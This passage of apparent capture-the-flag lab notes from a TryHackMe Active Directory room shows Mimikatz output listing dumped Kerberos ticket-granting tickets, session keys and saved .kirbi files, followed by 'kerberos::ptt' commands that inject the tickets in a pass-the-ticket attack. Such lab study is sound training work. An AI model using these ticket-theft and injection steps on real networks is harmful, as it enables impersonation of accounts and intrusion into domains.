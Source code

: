 ```powershell
```

			- Remember that the TGT sent back by the KDC to the client is encrypted using the 'krbtgt' hash.

`2nd)`

```
Group 2 - Ticket Granting Ticket                                        
         [00000000]                                                             
           Start/End/MaxRenew: 2/9/2023 5:04:59 AM ; 2/9/2023 3:04:56 PM ; 2/16/
2023 5:04:56 AM                                                                 
           Service Name (02) : krbtgt ; ZA.TRYHACKME.COM ; @ ZA.TRYHACKME.COM   
           Target Name  (--) : @ ZA.TRYHACKME.COM                               
           Client Name  (01) : THMJMP2$ ; @ ZA.TRYHACKME.COM ( $$Delegation Tick
et$$ )                                                                          
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; for
warded ; forwardable ;                                                          
           Session Key       : 0x00000012 - aes256_hmac                         
             29538aef91f09f6d86e1843c706533b8c7dc7e93c842dffe5080e87bdd567e09   
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        
[...]                                                                           
           * Saved to file [0;3e4]-2-0-60a10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM
.kirbi !                                                                        
         [00000001]                                                             
           Start/End/MaxRenew: 2/9/2023 5:04:56 AM ; 2/9/2023 3:04:56 PM ; 2/16/
2023 5:04:56 AM                                                                 
           Service Name (02) : krbtgt ; ZA.TRYHACKME.COM ; @ ZA.TRYHACKME.COM   
           Target Name  (02) : krbtgt ; za.tryhackme.com ; @ ZA.TRYHACKME.COM   
           Client Name  (01) : THMJMP2$ ; @ ZA.TRYHACKME.COM ( za.tryhackme.com 
)                                                                               
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renew
able ; forwardable ;                                                            
           Session Key       : 0x00000012 - aes256_hmac                         
             968797c05299b03a2605ca9270d6977a6cfc289863b6d1aac3170da3e0d12713   
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        
[...]                                                                           
           * Saved to file [0;3e4]-2-1-40e10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM.kirbi !
```

				- Look at the different filename where the tickets are saved.

	6. Inject the ticket into the current session:

<u>Trying out 1st TGT found</u>:

```powershell
mimikatz # kerberos::ptt [0;3e7]-2-0-40e10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM
```

		- `kerberos::ptt` is used for "passing the ticket" by injecting one or more Kerberos Tickets in the current session.

<u>Trying out 2nd TGT found</u>:

```powershell
mimikatz # kerberos::ptt [0;3e4]-2-0-60a10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM.kirbi
```
